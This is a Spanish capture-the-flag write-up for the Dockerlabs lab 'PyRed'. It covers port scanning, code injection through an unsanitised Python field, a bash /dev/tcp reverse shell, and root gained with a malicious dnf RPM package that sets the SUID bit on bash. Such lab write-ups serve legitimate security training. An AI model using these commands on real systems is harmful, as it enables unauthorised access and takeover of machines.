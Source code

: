 
# Writeup Template: Maquina `[ PyRed ]`

- Tags: #PyRed
- Dificultad: `[ Media ]`
- Plataforma: `[ Dockerlabs ]`

---
## Enlace al laboratorio
[Maquina PyRed](https://mega.nz/file/MHFl1JgS#HHZoCOv8d8Cne4AKUHRchI9IXGX-4OA2FjntN8QG7rw) 

## Configuracion del Entorno
```bash
# Comandos para desplegar el laboratorio
7z x pyred.zip
sudo bash auto_deploy.sh pyred.tar
```

---
## Fase de Reconocimiento

### Direccion IP del Target
```bash
172.17.0.2
```
### Identificación del Target
Lanzamos una traza **ICMP** para determinar si tenemos conectividad con el target
```bash
ping -c 1 172.17.0.2 
```

### Determinacion del SO
Usamos nuestra herramienta en python para determinar ante que tipo de sistema opertivo nos estamos enfrentando
```bash
wichSystem.py 172.17.0.2
# TTL: [ 64 ] -> [ Linux ]
```

---
## Enumeracion de Puertos y Servicios
### Descubrimiento de Puertos
```bash
# Escaneo rápido con herramienta personalizada en python
escanerTCP.py -t 172.17.0.2 -p 1-65000

# Escaneo con Nmap
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
```

### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sCV -p5000 172.17.0.2 -oN targeted
```

**Servicios identificados:**
```bash
5000/tcp open  http    Werkzeug httpd 3.0.2 (Python 3.12.2)
```
---

## Enumeracion de [Servicio Web Principal]
direccion **URL** del servicio:
```bash
http://172.17.0.2:5000/
```
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://172.17.0.2:5000/
http://172.17.0.2:5000/ [200 OK] Country[RESERVED][ZZ], HTTPServer[Werkzeug/3.0.2 Python/3.12.2], IP[172.17.0.2], Python[3.12.2], Werkzeug[3.0.2]
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p 5000 172.17.0.2 # No reporta nada critico
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
En la web principal tenemos un campo donde podemos ejecutar codigo, Y si no esta sanitizado nos podemos aprovechar de esto para ganar acceso al objetivo

### Ejecucion del Ataque
```python
# Comandos para explotación
saludo = "Hello World"
print(saludo)
```

Vemos que se logra ver la salida de la variable **saludo** en la respuesta. Ahora nos podremos en escucha para intentar ganar acceso con una **revershell**

### Intrusion
Modo escucha
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
import os;
os.system("bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/443 <&1'")
```

---

## Escalada de Privilegios

###### Usuario `[ Primpi ]`:
Listando los permisos de este usuario tenemos lo siguiente:
```bash
sudo -l

(ALL) NOPASSWD: /usr/bin/dnf
```

Ahora nos aprovechamos de esto para ganar acceso como **root** y desde nuestra maquina atacante ejecutamos estos comandos para crear un archivo **.rpm** malicioso
```bash
# Comando para escalar al usuario: ( root )
TF=$(mktemp -d) # Primero ejecutamos este
echo 'chmod u+s /bin/bash' > $TF/x.sh # Despues ejecutamos este
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
```

Ahora este archivo lo transferiremos a la victima, Montamos un servidor python para que este disponilble nuestro archivo malicioso: **x-1.0-1.noarch.rpm**
```bash
python3 -m http.server 80
```

Ahora lo descargamos desde la maquina victima:
```bash
wget http://192.168.1.37/x-1.0-1.noarch.rpm
```

Ahora explotamos el privilegio:
```bash
sudo /usr/bin/dnf install -y x-1.0-1.noarch.rpm
```

Ahora solo lanzamos nuestra **bash** como **root**
```bash
bash -p
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
whoami
root
```